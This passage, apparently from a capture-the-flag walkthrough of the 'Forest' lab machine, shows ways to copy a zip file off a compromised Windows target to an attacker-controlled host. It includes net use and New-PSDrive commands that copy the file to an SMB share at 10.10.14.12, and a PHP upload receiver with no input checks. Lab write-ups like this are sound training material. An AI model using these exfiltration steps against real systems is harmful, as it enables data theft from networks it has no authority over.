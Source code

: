 ![](assets/Forest_assets/Pasted%20image%2020230622131355.png)

- then on the windows machine, we then run the commands
```
net use \\10.10.14.12\smb
cp 20230622044953_output.zip \\10.10.14.12\smb
```
- OR on windows machine run, we can run the commands instead 
```
New-PSDrive -Name "smb" -PSProvider "FileSystem" -Root "\\10.10.14.12\smb"
cp 20230622044953_output.zip \\10.10.14.12\smb
```

![](assets/Forest_assets/Pasted%20image%2020230622131647.png)

- and we will find the zip file in the `smb` directory

#### Transfer Method 2: using a custom script upload.php
- Obtained from [File Transfer Techniques | 0xBEN - Notes & Cheat Sheets (benheater.com)](https://notes.benheater.com/books/file-transfers-and-data-exfiltration/page/file-transfer-techniques)
- On attack machine, we will create a script upload.php in our `/var/www/html/` directory
- then paste the php code in the upload.php script

```php
<?php
    $uploadDirectory = '/var/www/html/uploads/';
    $uploadFile = $uploadDirectory . $_FILES['file']['name'];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadFile);
?>
```

- we then create an uploads directory on our attack machine, to receive whatever we will be uploading `sudo mkdir /var/www/html/uploads`
- change the ownership of that directory `sudo chown www-data:www-data /var/www/html/uploads`
- start an apache server in the `/var/www/html/1` directory using `sudo systemctl start apache2`
- then on the target, which is a windows machine we run the command
